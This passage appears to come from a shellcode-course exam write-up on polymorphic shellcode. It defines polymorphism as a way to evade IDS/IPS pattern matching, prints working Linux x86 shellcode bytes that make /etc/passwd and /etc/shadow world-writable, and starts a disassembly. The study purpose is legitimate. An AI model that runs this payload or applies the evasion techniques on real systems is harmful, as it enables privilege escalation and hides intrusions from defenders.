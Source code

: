 - [original_shellcode.nasm](https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/6/part/1/original_shellcode.nasm), contains the original shellcode of which I wrote a polymorphic version
- [polymorphic_stable.nasm](https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/6/part/1/polymorphic_stable.nasm), contains the polymorphic version of the shellcode, but with a few more checks in order to avoid segmentation faults
- [polymorphic_tiny.nasm](https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/6/part/1/polymorphic_tiny.nasm)

## Definitions

> What is **Polymorphism**?

Polymorphism refers to the ability of something (e.g. shellcode, malwares) to mutate, while keeping intact the original code. For example, to clear a register you can use the following instruction:

```nasm
xor eax, eax
```

However, there are many more possibilities, like these:

```nasm
; mov-xor
mov EAX, 0xffffffff
xor EAX, 0xffffffff

; push-dec-pop
push 0x1
pop EAX
dec EAX

; mov-sub
mov EAX, 0xaabbccdd
sub EAX, 0xaabbccdd
```

In the case of shellcodes and malwares, the objective is to hide their presence from Security Protections that use **Pattern Matching**, such as `IDS` and `IPS` systems.

## Analysis

First, here's the original shellcode in **Intel syntax**, since the shellcode on the oroginal page uses **AT&T syntax**.

```bash
echo -n "\x31\xc0\x66\xb9\xb6\x01\x50\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\xb0\x0f\xcd\x80\x31\xc0\x50\x68\x61\x64\x6f\x77\x68\x2f\x2f\x73\x68\x68\x2f\x65\x74\x63\x89\xe3\xb0\x0f\xcd\x80\x31\xc0\x40\xcd\x80" > shellcode.bin

ndisasm -b 32 -p intel shellcode.bin
```

```nasm
                            ; EAX 0
00000000  31C0              xor eax,eax

                            ; ECX = 110110110
                            ; u=rw, g=rw, o=rw
00000002  66B9B601          mov cx,0x1b6

                            ; "/etc//passwd"
00000006  50                push eax
00000007  6873737764        push dword 0x64777373
0000000C  682F2F7061        push dword 0x61702f2f
00000011  682F657463        push dword 0x6374652f

                            ; EBX = pointer to "/etc//passwd"
00000016  89E3              mov ebx,esp
```